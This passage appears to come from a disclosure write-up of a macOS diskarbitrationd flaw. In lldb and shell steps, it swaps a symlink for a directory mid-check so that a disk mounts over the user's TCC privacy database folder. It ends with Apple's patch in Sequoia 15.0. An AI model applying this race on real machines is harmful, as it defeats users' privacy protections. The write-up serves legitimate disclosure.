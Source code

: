 ```
(lldb) memory read -f s 0x000000014ea0cc90
0x14ea0cc90: "/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"
```

9. Check the return value after calling `sandbox_check_by_audit_token`.

```
(lldb) finish
(lldb) register read $x0
      x0 = 0x0000000000000000
```

Since `sandbox_check_by_audit_token` returns `0`, the check is passed.

10. Replace `starthere` with a directory, run `diskarbitrationd`, and verify the mount result

```
crab@see /tmp % rm starthere
crab@see /tmp % mkdir starthere

(lldb) c

crab@see /tmp % mount
...
/dev/disk6s1 on /Users/crab/Library/Application Support/com.apple.TCC (apfs, local, nodev, nosuid, journaled, noowners, mounted by crab)
```

## Patch Notes

Apple has fixed this vulnerability in macOS Sequoia 15.0.

```c
if ( mntpath )
{
    if ( ( _argument1 & kDADiskMountOptionNoFollow ) == 0 )
    {
        if ( realpath( mntpath, path ) )
        {
            CFTypeRef mountpath = CFURLCreateFromFileSystemRepresentation( kCFAllocatorDefault, ( void * ) path, strlen( path ), TRUE );
            if ( mountpath )
            {
                DARequestSetArgument2( request, CFURLGetString( mountpath ) );
                CFRelease ( mountpath );
            }
        }
        else
        {
            status = kDAReturnBadArgument;
        }
    }
}
```
